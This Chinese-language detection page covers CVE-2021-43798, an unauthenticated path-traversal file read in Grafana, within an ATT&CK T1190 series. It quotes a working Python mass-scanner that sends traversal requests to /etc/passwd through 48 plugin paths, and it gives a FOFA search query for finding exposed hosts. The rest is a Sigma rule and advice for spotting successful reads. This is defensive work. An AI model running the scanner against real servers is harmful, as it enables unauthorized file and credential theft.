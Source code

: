# T1190-CVE-2021-43798 Grafana 任意文件读取漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Grafana是一个跨平台、开源的数据可视化网络应用程序平台。用户配置连接的数据源之后，Grafana可以在网络浏览器里显示数据图表和警告。Grafana 存在未授权任意文件读取漏洞，攻击者在未经身份验证的情况下可通过该漏洞读取主机上的任意文件。

影响范围：Grafana 8.0.0-beta1 to 8.3.0

FOFa查询语句：app="Grafana"

## 检测日志

HTTP.log

## 测试复现

漏洞利用方式建议参考：Grafana未授权任意文件读取漏洞

<https://www.cnblogs.com/bflw/p/15659188.html>

具体POC可参考：

```python
# coding:utf-8
# Author：绯夜 By T00ls.Net
import requests,urllib3
import urllib.request
import ssl
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
requests.packages.urllib3.disable_warnings()
urls = open('url.txt')
headers = {
'User-Agent':"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36"
}
for i in urls:
    url = i.rstrip("\n")
    list = ['/public/plugins/alertGroups/../../../../../../../../etc/passwd',
'/public/plugins/alertlist/../../../../../../../../etc/passwd',
'/public/plugins/alertmanager/../../../../../../../../etc/passwd',
'/public/plugins/annolist/../../../../../../../../etc/passwd',
'/public/plugins/barchart/../../../../../../../../etc/passwd',
'/public/plugins/bargauge/../../../../../../../../etc/passwd',
'/public/plugins/canvas/../../../../../../../../etc/passwd',
'/public/plugins/cloudwatch/../../../../../../../../etc/passwd',
'/public/plugins/dashboard/../../../../../../../../etc/passwd',
'/public/plugins/dashlist/../../../../../../../../etc/passwd',
'/public/plugins/debug/../../../../../../../../etc/passwd',
'/public/plugins/elasticsearch/../../../../../../../../etc/passwd',
'/public/plugins/gauge/../../../../../../../../etc/passwd',
'/public/plugins/geomap/../../../../../../../../etc/passwd',
'/public/plugins/gettingstarted/../../../../../../../../etc/passwd',
'/public/plugins/grafana-azure-monitor-datasource/../../../../../../../../etc/passwd',
'/public/plugins/grafana/../../../../../../../../etc/passwd',
'/public/plugins/graph/../../../../../../../../etc/passwd',
'/public/plugins/graphite/../../../../../../../../etc/passwd',
'/public/plugins/heatmap/../../../../../../../../etc/passwd',
'/public/plugins/histogram/../../../../../../../../etc/passwd',
'/public/plugins/influxdb/../../../../../../../../etc/passwd',
'/public/plugins/jaeger/../../../../../../../../etc/passwd',
'/public/plugins/live/../../../../../../../../etc/passwd',
'/public/plugins/logs/../../../../../../../../etc/passwd',
'/public/plugins/loki/../../../../../../../../etc/passwd',
'/public/plugins/mixed/../../../../../../../../etc/passwd',
'/public/plugins/mssql/../../../../../../../../etc/passwd',
'/public/plugins/mysql/../../../../../../../../etc/passwd',
'/public/plugins/news/../../../../../../../../etc/passwd',
'/public/plugins/nodeGraph/../../../../../../../../etc/passwd',
'/public/plugins/opentsdb/../../../../../../../../etc/passwd',
'/public/plugins/piechart/../../../../../../../../etc/passwd',
'/public/plugins/pluginlist/../../../../../../../../etc/passwd',
'/public/plugins/postgres/../../../../../../../../etc/passwd',
'/public/plugins/prometheus/../../../../../../../../etc/passwd',
'/public/plugins/stat/../../../../../../../../etc/passwd',
'/public/plugins/state-timeline/../../../../../../../../etc/passwd',
'/public/plugins/status-history/../../../../../../../../etc/passwd',
'/public/plugins/table-old/../../../../../../../../etc/passwd',
'/public/plugins/table/../../../../../../../../etc/passwd',
'/public/plugins/tempo/../../../../../../../../etc/passwd',
'/public/plugins/testdata/../../../../../../../../etc/passwd',
'/public/plugins/text/../../../../../../../../etc/passwd',
'/public/plugins/timeseries/../../../../../../../../etc/passwd',
'/public/plugins/welcome/../../../../../../../../etc/passwd',
'/public/plugins/xychart/../../../../../../../../etc/passwd',
'/public/plugins/zipkin/../../../../../../../../etc/passwd',]
    for i in list:
        urls = url +i
        try:
            try:
                request = urllib.request.urlopen(urls,timeout=8)
                content = request.read().decode('utf-8')
            except:
                request = urllib.request.urlopen(urls, context=ssl._create_unverified_context(),timeout=8)
                content = request.read().decode('utf-8')
            if 'root:x:0:0:root' in content:
                print("[+] Sussess  "+urls)
                result = urls+"==>Success"
                with open("Success.txt", "a+") as a:
                    a.write(result + '\n')
                break
        except:
            print("[*] Failed")
```

## 测试留痕

暂未进行实际有效的测试，故引用他人测试数据信息。
<https://blog.riskivy.com/wp-content/uploads/2021/12/md-1.png>

## 检测规则/思路

### Sigma规则

建议使用HTTP流量+安全设备进行检测分析判断攻击是否成功。

```yml
title: CVE-2021-43798 Grafana 任意文件读取漏洞
status: experimental
description: Grafana 存在未授权任意文件读取漏洞，攻击者在未经身份验证的情况下可通过该漏洞读取主机上的任意文件。
references:
    - https://saucer-man.com/information_security/856.html
author: 12306Br0
date: 2021/12/09
tags:
    - attack.initial_access
    - attack.t1190
logsource:
    category: webserver
detection:
    selection:
        cs-method: 'GET'
        c-uri|contains|all:
            - '/../../../../../../../../'
            - '/public/plugins'
    condition: selection
fields:
    - c-ip
    - c-dns
falsepositives:
    - Unknown
level: critical
```

### 建议

观察请求包与响应报内容。如请求路径中包含/etc/passwd，代表攻击者尝试读取/etc/passwd下密码信息，如响应状态码为200，且响应包中包含root:x:0:0:root，意味着攻击成功；如请求路径中包含/var/lib/grafana/grafana.db，代表攻击者尝试读取数据库文件，如果响应状态码为200，且响应包z中包含SQLite format，很意味着攻击成功。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Grafana 未授权任意文件读取漏洞

<https://www.cnblogs.com/bflw/p/15659188.html>

CVE-2021-43798 Grafana 任意文件读取漏洞分析

<https://saucer-man.com/information_security/856.html>

朴实无华的Grafana未授权任意文件读取漏洞批量验证脚本

<https://www.t00ls.cc/thread-63673-1-1.html>
